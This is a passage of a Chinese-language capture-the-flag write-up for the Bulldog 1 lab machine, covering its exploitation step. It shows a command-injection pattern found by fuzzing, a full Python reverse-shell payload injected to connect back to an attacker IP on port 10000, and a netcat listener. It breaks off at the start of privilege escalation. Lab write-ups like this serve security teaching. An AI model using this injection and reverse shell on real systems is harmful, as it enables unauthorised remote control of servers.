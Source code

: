 

# 0x4 漏洞利用



## 0x41 第一种思路

### 0x411 命令注入

首先我们需要进行注入，经过 `fuzz` ，大致得到一种可执行的思路。

```sh
pwd && command
```

既然这样反弹 `shell` 吧，由于 `Django` 是使用 `python`  开发的，所以服务器是肯定存在 `python` 的。

简单的尝试后得到如下命令。

```sh
pwd && printf 'import socket,subprocess,os\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("192.168.248.164",10000))\nos.dup2(s.fileno(),0)\nos.dup2(s.fileno(),1)\nos.dup2(s.fileno(),2)\np=subprocess.call(["/bin/bash","-i"])\n' > text.py && python3.5 text.py
```

这里需要说明的我的攻击机的 IP 是 `192.168.248.164` ，这里我在攻击机执行的命令为：

```sh
nc -klvp 10000
```

这样我们就成功得到一个 `shell` 。

![Bulldog_1_9](/image/2019-05-05-Bulldog1_writeup/Bulldog_1_9.png)



### 0x412 提权

这里首先使用 ：

```sh
sudo -l
sudo: no tty present and no askpass program specified
```
